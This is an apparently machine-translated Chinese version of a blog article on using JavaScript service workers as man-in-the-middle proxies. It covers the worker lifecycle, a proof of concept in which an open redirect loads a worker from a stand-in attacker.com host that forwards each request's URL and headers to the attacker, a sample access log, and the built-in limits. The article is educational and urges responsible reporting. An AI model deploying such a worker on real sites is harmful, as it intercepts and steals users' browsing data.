 # 中间人通过 JavaScript 服务人员进行攻击

> 原文：<https://betterprogramming.pub/man-in-the-middle-attacks-via-javascript-service-workers-52647ac929a2>

## 它们是可能的吗？它们是真正的风险吗？

![](img/a922d1b975dc5b5c243de3915bf1714c.png)

在 [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral) 上由 [Dmitry Ratushny](https://unsplash.com/@ratushny?utm_source=medium&utm_medium=referral) 拍摄的照片。

我第一次接触到服务人员的概念是在 CTF 防御战期间。在一个挑战中，我们必须注册一个服务人员来拦截用户的流量，并将其重新路由到我们的服务器。这个概念听起来很有趣也很危险，所以我研究了一下，最终意识到这是一篇关于使用服务人员作为“中间人”(MitM)的文章的好主题，以及它在现实世界中的应用是否可行。

# **什么是服务人员？**

当然，你的第一个问题可能是“什么是服务人员？”Google web 开发者指南对它们的描述如下:

> "服务工作者是一个可编程的网络代理，让您控制如何处理来自您的页面的网络请求。"

基本就是这样！它闻起来已经像一个 MitM！服务人员是一段 JavaScript 代码，开发者可以在他们的网站上注册并激活它。它作为代理运行在浏览器的后台，接收一定范围内的每一个请求。此外，服务人员处理和响应请求。例如，它可以发送从缓存中加载的内容，转发初始请求以返回响应，甚至用不同的文档进行响应(参见下面的请求流)。即使当相应的网站关闭时，服务工作者也独立于 web 应用运行。在某些情况下，服务人员甚至会在浏览器关闭时运行(例如在 Android 上)。

![](img/f371583e1055a66862757142bc382e83.png)

服务人员请求流程(作者供图)。

因此，可以使用服务工作者来提高 web 应用程序的性能，并通过提供从缓存提供的先前加载的内容，使应用程序在脱机时完全可用。服务人员独立于 web 应用程序运行。因此，它们可以直接从服务器接收消息，并且是通知和推送 API 的基础。

# 把我们的人安排在中间

所有这些都令人印象深刻，向我们展示了服务人员是多么强大！但是它们怎么能被用作 MitM 呢？为了理解这一点，我们首先需要看看服务人员是如何操作的。

![](img/6bea5c4f90dda8a0300e57bc056d007d.png)

服务人员生命周期(作者拍摄)

上图展示了服务人员的简化生命周期。服务人员必须首先在网站上注册，然后才能使用网站。注册后，浏览器会在后台安装工作人员。一旦安装完毕，服务人员就会收到`activate`事件，开发人员通常会用它来初始化静态文件到缓存的加载。接下来，服务工作器进入空闲状态，在这种状态下，它将采取两种状态:要么终止以节省内存，要么处理`fetch`和消息事件。这包括来自属于工作进程范围的页面的所有请求。

如果注册了新的服务，网页会优先使用旧的工作器，并将新的服务工作器设置为`waiting`状态。一旦网页被关闭，旧的服务工作者被移除，新的服务工作者被激活。这对于 MitM 来说很重要，因为这意味着 MitM worker 只有在重新加载 web 页面之后才会被加载。

注册服务人员的 JavaScript 代码

定义服务工作者的 JavaScript 代码

上面可以看到两个代码片段。第一个代码片段用于注册一个服务人员。必须知道的是，服务人员只能从同一域中的某个位置进行安装。这给攻击者增加了难度。然而，可以使用任意文件上传或类似的方法来绕过这一限制(稍后将详细介绍)。

第二个代码片段显示了服务工作者的定义。当网站发送请求时，`fetch`事件总是被激活。在上面的例子中，工人只有在收到请求时才返回`Hello World!`。

现在我们已经知道了服务工作者的一般用途，让我们来看看 MitM 概念验证:

概念烧瓶应用的证明

我们可以在 [Flask](https://flask.palletsprojects.com/en/1.1.x/) 应用程序中看到我添加了一个打开的重定向。这样做是因为加载服务工作器的地址必须具有相同的来源。我将在后面的限制部分详细讨论这一点。呈现的`index.html`包含我们前面看到的标准服务工作器安装代码，唯一的区别是服务工作器 URL 使用了开放重定向:`https://victim.com/?url=https://attacker.com/static/sw.js`。

概念验证服务人员

服务工作者本身在每个请求上接收一个`fetch`事件，并随后发出两个请求。第一个 fetch 事件(第 4 行)将请求的 URL 和头信息发送到攻击者的域。不用说，任意信息都可以添加到这个请求中。第二个 fetch 事件(第 6 行)向最初请求的 URL 发送一个请求，以便向用户返回真实的响应。

下面的访问日志显示的是 2020 年 6 月 29 日攻击者一方，一个用户在没有任何头信息的情况下请求`https://victim.com/foo`。这个请求的发起者是来自`https://victim.com/?url=https://attacker.com/static/sw.js`的服务人员。

```
123.456.789.123 — — [29/Jun/2020:00:25:02 +0000] “GET /mitm?url=https://victim.com/foo&headers={} HTTP/1.1” 404 209 “https://victim.com/?url=https://attacker.com/static/sw.js" “Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36”
```

如果你想知道你是否曾经用过服务人员，你肯定用过。打开您的开发人员控制台，其中列出了所有这些组件。例如，在谷歌浏览器中，它位于服务人员下的应用程序标签中。下图显示了我们的 MitM 服务人员:

![](img/dbf298d099b33c3670fbb9d037ab9426.png)

Chrome 开发工具中的服务人员列表

# 有哪些局限性？

使用服务人员的强大概念作为 MitM 的想法并不新颖。事实上，服务人员本身已经有了许多集成的特性来复杂化和防止 MitM 攻击。

第一个也是最明显的保护措施是，攻击者必须通过执行 JavaScript 来安装服务工作器。这可能是通过滥用 XSS 或其他代码注入攻击。为了避免最简单的攻击，服务人员只使用 HTTPs。否则，open WiFi 上的攻击者可能会修改流量并包含安装 JavaScript 代码。事实上，现在没有 HTTPs 的网站已经很少见了。不管怎样，它仍然是一个方便的保护元素。

下一个保护措施(如前所述)是加载服务工作者的域所提供的安全性。服务工作者只能从相同的源域安装，这意味着攻击者需要将他们的服务工作者文件上传到 web 服务器上，或者利用开放重定向。这两个问题都是 web 开发人员通常试图避免的。此外，该文件需要被解释为 JavaScript。在很大程度上，第二项措施提供了相当好的保护。

第三个也是最后一个保护措施是服务人员的工作范围。默认情况下，服务工作者的路径是作用域的根，只能扩展到下面的所有目录。换句话说，如果您的 MitM 服务人员位于`/example/sw.js`，则只能为`/example/*`安装服务人员，而不能为`/foobar/*`或任何其他路径安装服务人员。一个例外是`service-worker-allowed`割台。这允许我们将范围扩展到任意路径。但是，标题必须由 web 服务器设置。显然，只有当一个网站已经在使用服务人员时，才会出现这种情况。根据网站的实现情况，引入新的服务人员可能会导致新的服务人员取代旧的服务人员的冲突。但是，如果网站实施得当，MitM 服务人员在使用一次后就会被删除。

考虑到所有的事情，真正的问题是“恶意用户会/可能使用这种攻击方法吗？”老实说，我不认为在很多情况下可以使用 MitM 服务人员。需要在同一个域中注入代码和文件——此外，所有这些都不太可能出现在网站的根目录中。尽管这种攻击不太可能发生，但这是一个值得思考的有趣概念。如果情况允许，后果将是毁灭性的。

# 摘要

本文讨论了如何使用服务工作者作为 MitM，并给出了一个概念证明。虽然这种方法更多的是一种理论上的想法，而不是一种可利用的攻击，但了解这些类型的攻击对每个开发人员和安全专家都是有价值的。

感谢您的阅读。希望你和我一样觉得这个话题很有趣！

我想强调的最后一点是:这些知识不应该促使任何人滥用安全问题。相反，我希望每个人都意识到理论上的可能性，并以这种谨慎的心态去发展。更重要的是，如果您发现任何允许这种攻击的问题，不要利用它们。报告他们并帮助解决问题。

有很多机会来合法地测试你的技能，每周都有很多很棒的 CTF 或者通过追求 bug 赏金奖励计划。不管怎样，很高兴能和大家一起学习和分享新的东西。黑客快乐！

# 资源

*   [https://medium . com/bugbountywriteup/pooot-writeup-217384 a6 b 69 c](https://medium.com/bugbountywriteup/pooot-writeup-217384a6b69c)
*   [https://developers . Google . com/web/fundamentals/primers/service-workers](https://developers.google.com/web/fundamentals/primers/service-workers)
*   [https://medium . com/Samsung-internet-dev/a-beginners-guide-to-service-workers-f 76 abaf 1960 f 6](https://medium.com/samsung-internet-dev/a-beginners-guide-to-service-workers-f76abf1960f6)
*   [https://developers . Google . com/web/ILT/pwa/介绍服务人员](https://developers.google.com/web/ilt/pwa/introduction-to-service-worker)